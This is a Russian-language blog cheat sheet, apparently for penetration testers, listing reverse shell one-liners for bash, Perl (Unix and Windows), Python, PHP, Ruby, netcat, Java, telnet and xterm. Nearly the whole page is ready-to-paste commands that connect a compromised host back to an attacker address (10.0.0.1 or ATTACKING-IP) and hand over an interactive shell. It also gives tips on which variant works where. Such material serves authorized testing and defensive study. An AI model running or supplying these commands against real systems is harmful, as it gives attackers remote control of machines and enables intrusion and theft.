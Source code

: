 ```yaml
---
layout: post
categories: cheatsheets
published: true
ru: true
---
```

# Оглавление
{:.no_toc}

* toc
{:toc}

# Общие слова

Если тебе повезло обнаружить уязвимость выполнения команд во время теста на проникновение, довольно скоро тебе захочется интерактивный шелл.

Если не получается добавить новый аккаунт / SSH ключ / .rhosts файл, твой следующий шаг, вероятно, будет либо делать обратный шелл, либо привязывать оболочку к порту TCP. Эта страница поможет с первым.

Варианты делать обратный шелл ограничены языками сценариев, установленными в целевой системе, хотя также можете загрузить бинарник, если достаточно хорошо подготовиться.

Показанные примеры предназначены для Unix-подобных систем. Некоторые из приведенных ниже примеров также должны работать в Windows, если вы используете замену “/bin/sh -i” с “cmd.exe”.

Почти каждый из методов приведенных ниже предназначен для использования в качестве одной строки которую можно копировать/вставлять. Это довольно короткие строки, но не очень читаемые.

# Bash

Некоторые версии bash могут помочь с реверс шеллом (тестированно на Ubuntu 10.10):
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
~~~
exec /bin/bash 0&0 2>&0
~~~
# PERL

Вот короткая, не зависищая от фич версия  perl реверс шелла:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i))))
    {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

И для Windows

~~~
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~
~~~
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

# Python

Тестированно на Linux/Python 2.7:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

Этот код предполагает TCP соединение с дескриптором 3. Это работало на тест системе. Если не работает, попробуй 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Если хочешь .php файл для загрузки, посмотри более навороченные php.

# Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat редко присутствует в продакшен системах, и даже если там несколько версий netcat, некоторые из них не поддерживают опцию -e.

~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

Если у вас установлена неправильная версия netcat, ты всё равно можешь получить реверс шелл вот так:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()



# Telnet 

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
~~~
~~~
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
~~~

Не забудь также слушать 443 на атакующей машине.

# xterm

Одной из самых простых форм обратной оболочки является xterm. Следующая команда должна быть запущена на сервере. Он попытается подключиться к тебе (10.0.0.1) через TCP-порт 6001.


	xterm -display 10.0.0.1:1

Чтобы перехватить входящий xterm, запусти X-сервер (:1 - который прослушивает TCP-порт 6001). Один из способов сделать это с помощью Xnest (для запуска в твоей системе):

	Xnest :1

Тебе нужно авторизовать цель для подключения (команда также запускается на твоем хосте):

	xhost +targetip
